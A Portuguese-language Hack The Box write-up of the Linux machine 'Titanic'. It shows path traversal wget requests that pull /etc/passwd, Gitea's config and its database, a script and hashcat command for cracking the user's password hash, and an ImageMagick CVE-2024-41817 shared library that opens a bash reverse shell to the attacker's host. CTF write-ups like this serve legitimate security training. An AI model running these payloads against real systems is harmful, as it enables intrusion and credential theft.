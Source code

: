 ```yaml
---
id: index
aliases: []
tags:
  - CTF
  - Hack the Box
authors:
  - Nami
date: "2025-02-21"
draft: false
showAuthor: false
showAuthorsBadges: false
summary: Solution for the Hack the Box machine Titanic
title: Hack the Box - Titanic
---
```


## Introdução

Titanic é uma máquina Linux classificada como easy no Hack The Box, que envolve a exploração de uma vulnerabilidade de Path Traversal em uma aplicação Flask e análise de configurações do Gitea para escalação de privilégios

## Coleta de Informações

### Reconhecimento Ativo

Iniciamos com um scan de portas para identificar serviços disponíveis:

![Resultado do scan Nmap](nmap.png)

### Enumeração

Realizamos enumeração de subdomínios (virtual hosts):

```bash
ffuf -H "Host: FUZZ.titanic.htb"  -w "/usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt" -u http://titanic.htb/ -t 100 -fl 10
```

![Enumeração de VHosts](enum_vhost.png)

Após descobrir o subdomínio `dev.titanic.htb`, adicionamos ao arquivo `/etc/hosts` e acessamos via navegador.

## Acesso Inicial

Na instância Gitea, encontramos dois repositórios importantes:
- `docker-config`: Contém configurações Docker do Gitea e MySQL
- `flask-app`: Contém a aplicação web vulnerável

No repositório `flask-app`, identificamos uma vulnerabilidade de Path Traversal na função `download_ticket()` na rota `/download`.

![Flask App](app-py.png)

O repositório `docker-config` revelou o path `/home/developer/gitea/data:/data` usado nas configurações do Gitea.

![Docker Compose](docker_compose.png)

## Post Exploitation

Utilizando a vulnerabilidade de Path Traversal, conseguimos extrair o passwd do sistema:

```bash
wget 'http://titanic.htb/download?ticket=../../../../../../../etc/passwd' -O passwd.txt
```
![Passwd](passwd.png)

## Escalação de Privilégios

[Documentação Gitea:](https://docs.gitea.com/administration/config-cheat-sheet)

Lendo a documentação do Gitea, podemos identificar a localização padrão dos arquivos de configuração. O arquivo de configuração é salvo em `etc/gitea/conf/app.ini`; após a instalação, podemos utilizar o caminho `/home/developer/gitea/data:/data` (recuperado anteriormente) para localizar o arquivo `app.ini`.


(No momento da escrita deste writeup, estes posts estão indisponíveis.)

1. Extraímos o arquivo de configuração:
```bash
wget 'http://titanic.htb/download?ticket=../../../../../../../home/developer/gitea/data/gitea/conf/app.ini' -O app.ini
```

2. Obtivemos o banco de dados:
```bash
wget 'http://titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/gitea.db' -O gitea.db
```

3. Extraímos informações de usuários:
```sql
sqlite3 gitea.db "select * from user"
sqlite3 gitea.db "select name, passwd_hash_algo, passwd, salt from user"
```

![Extrai Hast](select_hash.png)

Após conseguimos o hash do usuário, podemos pesquisar maneiras de quebrar o PBKDF2 utilizando hashcat. Alguns posts que tratam do assunto são:
- https://hashcat.net/forum/thread-7854.html
- https://hashcat.net/forum/thread-8391-post-44775.html#pid44775

Após obtermos o hash do usuário, precisamos formatá-lo adequadamente para o hashcat. Para isso, solicitei o chatgpt para gerar um script que extrai e formata as informações no padrão que precisamos do banco de dados SQLite:

```python
import sqlite3
import base64

# Conectar ao banco de dados SQLite
conn = sqlite3.connect("gitea.db")
cursor = conn.cursor()

# Executar a query para obter os dados necessários
cursor.execute("SELECT passwd, salt, name FROM user WHERE name = 'developer'")


with open("gitea.hashes", "w") as f:
    for passwd_hex, salt_hex, name in cursor.fetchall():
        # Converter de hexadecimal para bytes e depois para Base64
        passwd_b64 = base64.b64encode(bytes.fromhex(passwd_hex)).decode()
        salt_b64 = base64.b64encode(bytes.fromhex(salt_hex)).decode()

        # Formatar no padrão Hashcat
        hashcat_entry = f"{name}:sha256:50000:{salt_b64}:{passwd_b64}"

        
        print(hashcat_entry)
        f.write(hashcat_entry + "\n")

conn.close()
```

Com o hash formatado corretamente, podemos então usar o hashcat para quebrá-lo:

4. Quebramos o hash usando hashcat:

```bash
hashcat -m 10900 -w 3 gitea.hashes /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --show --user
```

5. Agora podemos acessar a máquina com as credenciais de "developer", e coletamos a primeira flag.

![User Flag](user_flag.png)

6. Poderíamos executar o linpeas para identificar as possibilidades de escalonamento de privilégios, porém nesse caso listaremos apenas os diretórios graváveis pelo nosso usuário.

```bash
find / -type d -writable 2>/dev/null
```
![Writable File](writable_files.png)

7. Ao explorar os diretórios /opt/scripts, podemos identificar um script.

![Script Magick](script_magick.png)

O script parece utilizar o ImageMagick para identificar imagens no diretórios `/opt/app/static/assets/images` e grava a saída no arquivo metadata.log.

8. Podemos verificar a versão do ImageMagick para procurar por vulnerabilidades. Pesquisando no google encontramos a CVE-2024–41817 que podemos utilizar para escalar privilégio e coletar a flag de root.

![Magick Version](magick_version.png)

Na nossa máquina local, iremos ficar escutando na porta 4444, pois é a porta que iremos configurar na biblioteca compartilhada que executará nossa shell reversa.

```bash
sudo nc -nlvp 4444
```

No diretório do nosso usuário "developer", iremos criar a biblioteca que nos concedera o acesso root.

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init() {
    system("/bin/bash -c '/bin/bash -i >& /dev/tcp/VPN-IP/4444 0>&1'");
    exit(0);
}
EOF
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm
```

Acesse o diretório de root e colete a flag.

![Root Flag](root_flag.png)

## Conclusão
Este exercício demonstrou a exploração da vulnerabilidade de Path Traversal para extração de dados sensíveis e o aproveitamento de configurações vulneráveis do Gitea para escalonamento de privilégios. A exploração da vulnerabilidade no ImageMagick [CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) permitiu a execução de código levando a flag de root.

## Referências
 - [Hack The Box](https://app.hackthebox.com/home)
 - [ImageMagick CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)
 - [Documentação do Hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes)
 - [Documentação Gitea](https://docs.gitea.com/administration/config-cheat-sheet)
